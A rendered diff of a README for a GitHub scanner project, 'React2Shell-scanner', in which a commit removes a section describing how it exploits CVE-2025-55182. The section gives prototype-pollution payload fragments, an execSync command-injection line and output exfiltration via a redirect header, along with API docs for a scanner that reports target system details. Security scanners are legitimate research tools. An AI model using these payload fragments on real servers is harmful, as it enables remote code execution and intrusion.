

Before and after one commit to deepankarkumar1/React2Shell-scanner, a Markdown page: README.md, the part around one of its changes. Shown at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -116,72 +116,3 @@ node server.js
    - Identifies current working directory
    - Information stored for shell session use
 
-### Exploit Mechanism
-
-The scanner exploits CVE-2025-55182 through:
-
-1. **Multipart Form Data Pollution**
-   ```javascript
-   Content-Disposition: form-data; name="0"
-   {"then":"$1:__proto__:then","status":"resolved_model",...}
-   ```
-
-2. **Prototype Chain Manipulation**
-   ```javascript
-   "_response":{"_prefix":"<PAYLOAD>","_formData":{"get":"$1:constructor:constructor"}}
-   ```
-
-3. **Command Injection**
-   ```javascript
-   var res=process.mainModule.require('child_process').execSync('...')
-   ```
-
-4. **Output Exfiltration**
-   - Base64 encodes command output
-   - Returns via redirect header
-   - Automatically decoded in scanner
-
----
-
-## 🎯 API Endpoints
-
-### Scanner API
-
-#### `POST /api/scan`
-Start a new vulnerability scan.
-
-**Request:**
-```json
-{
-  "targetUrl": "https://example.com/"
-}
-```
-
-**Response:**
-```json
-{
-  "scanId": "1706543210123"
-}
-```
-
-#### `GET /api/scan/{scanId}`
-Get scan results.
-
-**Response:**
-```json
-{
-  "id": "1706543210123",
-  "target": "https://example.com/",
-  "status": "completed",
-  "vulnerable": true,
-  "systemInfo": {
-    "user": "ubuntu",
-    "userId": "uid=1000(ubuntu) gid=1000(ubuntu)",
-    "system": "Linux webserver 5.4.0-88-generic",
-    "workingDir": "/home/ubuntu"
-  },
-  "hasSudo": true,
-  "steps": [...]
-}
-```
-
````
Also changed, not shown: other parts of README.md (+0 -106 lines).
